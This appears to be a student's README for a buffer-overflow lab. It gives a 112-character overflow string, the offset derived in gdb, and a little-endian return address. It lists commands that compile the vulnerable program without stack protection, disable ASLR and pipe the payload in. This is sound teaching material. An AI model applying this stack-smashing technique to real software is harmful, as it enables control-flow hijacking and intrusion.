 # Buffer-Overflow-

Features:

1. Attack string chosen in my program (attack-string.c) is
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"

2. Length of this string is 112.

3. If we use gdb and observe the actions in prompt() function, we can say that lea (Load effective
address) uses ox6c. In decimal it is 108. Size of base frame pointer is 32bit (or 4 bytes). Hence, we
enter 108+4=112 characters for buffer overflow(Since 1 character is of 1 byte we add 4 characters).

4. Target address in my machine is 0x08048ee0. So, I used this address in little endian form, that is,
\xe0\x8e\x04\x08

Steps executed:

1. gcc vuln_program.c -fno-stack-protector -z execstack -static -o vuln_program

2. sudo sysctl -w kernel.randomize_va_space=0

3. gcc attack-string.c -o attack-string

4. ./attack-string $'\xe0\x8e\x04\x08' > ./attack.input

5. ./vuln_program<./attack.input
